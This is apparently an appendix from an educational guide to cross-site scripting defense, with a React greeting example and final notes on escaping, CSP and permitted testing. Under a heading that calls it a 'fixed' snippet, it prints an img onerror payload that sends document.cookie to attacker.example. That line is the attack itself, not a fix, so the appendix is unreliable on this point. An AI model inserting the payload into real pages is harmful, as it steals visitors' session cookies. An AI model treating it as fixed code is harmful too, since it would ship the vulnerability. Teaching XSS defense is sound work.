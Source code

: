 
## Appendix — Fixed versions of the code snippets you provided

### Fixed brittle snippet (image onerror stealing cookies)
```html
<!-- Example vulnerable echo in a page:
  <div id="greet">Hello, ${name}</div>
  If name comes from URL and is unescaped, attacker can inject HTML.
-->
<img src="invalid" onerror="new Image().src='https://attacker.example/steal?c='+encodeURIComponent(document.cookie)">
```

### React example (safe by default)
```javascript
import React from 'react';

function Greeting() {
  const params = new URLSearchParams(window.location.search);
  const name = params.get('name') || '';
  return <div>Welcome {name}</div>;
}
export default Greeting;
```

---

## Final notes
- Treat XSS as both an **engineering** and **design** problem: how data flows from input to output.
- Use defense-in-depth: escaping, sanitization, CSP, secure cookies, and minimal privileged JS surface.
- When testing locally, use realistic payloads from OWASP or security resources, and never test attacks against systems you don't own or have explicit permission to test.

---

*End of notes.*
